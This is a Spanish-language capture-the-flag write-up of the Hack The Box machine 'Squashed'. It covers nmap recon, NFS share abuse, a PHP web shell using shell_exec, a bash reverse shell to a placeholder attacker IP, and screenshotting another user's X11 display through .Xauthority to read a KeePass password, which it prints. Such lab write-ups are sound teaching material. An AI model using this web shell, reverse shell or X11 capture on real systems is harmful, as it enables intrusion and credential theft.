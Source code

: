 ```yaml
---
title: Squashed - Hack The Box
description: >-
  En esta máquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario.
author: Mariano Alfonso
date: 2023-04-18
categories: [HackTheBox, Easy, CFTs]
tags: [Privilege Escalation, Pentesting, Linux, NFS mount]
image:
  path: /assets/img/HTB/writeup-squashed/Squashed.png
  alt: Máquina Squashed de la Plataforma Hack The Box.
---
```


---

## Introducción 📄
El presente Write Up explica los pasos para resolver la máquina  <span style="color:green"> **Squashed** </span> de la plataforma [HackTheBox](https://hackthebox.com).

## Reconocimiento de Puertos 🔍

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.

![](/assets/img/HTB/writeup-squashed/TrazaICMP.png) _**Figure 1**: Traza ICMP._

En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux </span>.

<div style="display: flex; justify-content: center; width: 100%;">
  <table style="width: 100%; table-layout: fixed;">
    <caption style="caption-side: bottom; text-align: center; color: white;">
      <span style="font-weight: bold; color: white;">Table 1</span>: Información sobre el TTL y Sistema Operativo.
    </caption>
    <tr>
      <th style="text-align: center;">TTL</th>
      <th style="text-align: center;">Sistema Operativo</th>
    </tr>
    <tr>
      <td style="text-align: center; word-wrap: break-word;">64</td>
      <td style="text-align: center; word-wrap: break-word;">Linux</td>
    </tr>
  </table>
</div>
 
Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.

```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/img/HTB/writeup-squashed/nmap1.png) _**Figure 2**: Primer Escaneo con Nmap._


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/img/HTB/writeup-squashed/nmap2.png) _**Figure 3**: Segundo Escaneo con Nmap._

## Puerto 2049 

Por lo que veo, obtengo esta información y me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)

```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/img/HTB/writeup-squashed/showmount.png) _**Figure 4**: Directorios Obtenidos._

Obtengo estos dos directorios:

<div style="display: flex; justify-content: center; width: 100%;">
  <table style="width: 100%; table-layout: fixed;">
    <caption style="caption-side: bottom; text-align: center; color: white;">
      <span style="font-weight: bold; color: white;">Table 2</span>: Rutas Obtenidas.
    </caption>
    <tr>
      <th style="text-align: center;" colspan="2">Rutas</th>
    </tr>
    <tr>
      <td style="text-align: center; word-wrap: break-word;">/home/ross</td>
      <td style="text-align: center; word-wrap: break-word;">/var/www/html</td>
    </tr>
  </table>
</div>

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross** y **/mnt/web_server** en el directorio **/mnt** y luego los monto.

```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...

![](/assets/img/HTB/writeup-squashed/listadodedirectorios.png) _**Figure 5**: Listado de Directorios._

Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...

![](/assets/img/HTB/writeup-squashed/cdwebserver.png) _**Figure 6**: Directorio we_server_

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio.

![](/assets/img/HTB/writeup-squashed/usuarioquetieneprivilegio.png) _**Figure 7**: Usuario con bajos privilegios._

Ok pensando un poco podria burlar el **user1** creando uno en mi maquina. 

![](/assets/img/HTB/writeup-squashed/directorioswebserver.png) _**Figure 8**: Listado del Directorio web_server_

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**.

```php
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
{: file='cmd.php'}

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL.

![](/assets/img/HTB/writeup-squashed/cmd=ls-l.png) _**Figure 9**: Ejecución de Comandos en la URL._

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)

```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/img/HTB/writeup-squashed/reverseshell.png) _**Figure 10**: Reverse Shell Obtenida._

Antes de continuar actualizo la tty. 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios .Xauthority ☣️

Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tengo acceso al archivo. 

![](/assets/img/HTB/writeup-squashed/usuarioquetieneprivilegio.png) _**Figure 11**: Usuario Sin Privilegios._

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)

No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario. 

```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```

![](/assets/img/HTB/writeup-squashed/Screenshotxwd.png) _**Figure 12**: Archivo Guardado en Formato .xwd_

Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**.

```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```

![](/assets/img/HTB/writeup-squashed/convert.png) _**Figure 13**: Convirtiendo Archivo .xwd a .png_

Abro el screenshot y listo ahi se ve la **password**.

![](/assets/img/HTB/writeup-squashed/screenshot.png) _**Figure 14**: Screenshot._

Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme en usuario **root**.

![](/assets/img/HTB/writeup-squashed/rootalex.png) _**Figure 15**: Flag del User root._

Ya tenemos acceso a la <span style="color:red"> **Flag**.</span>
